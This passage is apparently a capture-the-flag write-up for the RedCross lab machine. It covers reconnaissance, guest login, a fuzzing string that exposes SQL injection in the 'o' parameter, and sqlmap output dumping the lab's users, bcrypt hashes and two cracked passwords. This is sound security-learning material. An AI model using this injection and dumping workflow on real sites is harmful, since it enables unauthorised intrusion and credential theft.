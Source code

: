 Inspecting the certificate we have the first mail:
emailAddress = penelope@redcross.htb

Finally we download DirBuster and run it and find:
https://intra.redcross.htb:443/documentation/account-signup.pdf

After reading the pdf and following the instructions we receive the following credentials:
`guest:guest`


Allright, after login we get redirected to the app page. In there we can try to filter the users. So it's time to look for some injections:

```
${{<%[%'"}}%\

# returns

DEBUG INFO: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '}}%\') LIMIT 10' at line 1
```
So all right! We have an sql injection over the `o=` param in the app page.
`https://intra.redcross.htb/?o=<vuln>&page=app`

After playing with sqlmap, the follwoing tables are obtained:
```
[21:54:40] [INFO] retrieved: 'information_schema'
[21:54:41] [INFO] retrieved: 'redcross'

+----------+
| username |
+----------+
| admin    |
| charles  | -> cookiemonster 
| guest    |
| penelope | -> alexss
| tricia   |
+----------+

+--------------------------------------------------------------+
| password                                                     |
+--------------------------------------------------------------+
| $2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i | 
| $2y$10$Dnv/b2ZBca2O4cp0fsBbjeQ/0HnhvJ7WrC/ZN3K7QKqTa9SSKP6r. |
| $2y$10$tY9Y955kyFB37GnW4xrC0.J.FzmkrQhxD..vKCQICvwOEgwfxqgAS |
| $2y$10$U16O2Ylt/uFtzlVbDIzJ8us9ts8f9ITWoPAWcUfK585sZue03YBAi |
| $2y$10$z/d5GiwZuFqjY1jRiKIPzuPXKt0SthLOyU438ajqRBtrb7ZADpwq. |
+--------------------------------------------------------------+


+----+------------------------------+--------+--------------------------------------------------------------+----------+
| id | mail                         | role   | password                                                     | username |
+----+------------------------------+--------+--------------------------------------------------------------+----------+
| 1  | admin@redcross.htb           | 0      | $2y$10$z/d5GiwZuFqjY1jRiKIPzuPXKt0SthLOyU438ajqRBtrb7ZADpwq. | admin    |
| 2  | penelope@redcross.htb        | 1      | $2y$10$tY9Y955kyFB37GnW4xrC0.J.FzmkrQhxD..vKCQICvwOEgwfxqgAS | penelope |
| 3  | charles@redcross.htb         | 1      | $2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i | charles  |
| 4  | tricia.wanderloo@contoso.com | 100    | $2y$10$Dnv/b2ZBca2O4cp0fsBbjeQ/0HnhvJ7WrC/ZN3K7QKqTa9SSKP6r. | tricia   |
| 5  | non@available                | 1000   | $2y$10$U16O2Ylt/uFtzlVbDIzJ8us9ts8f9ITWoPAWcUfK585sZue03YBAi | guest    |
```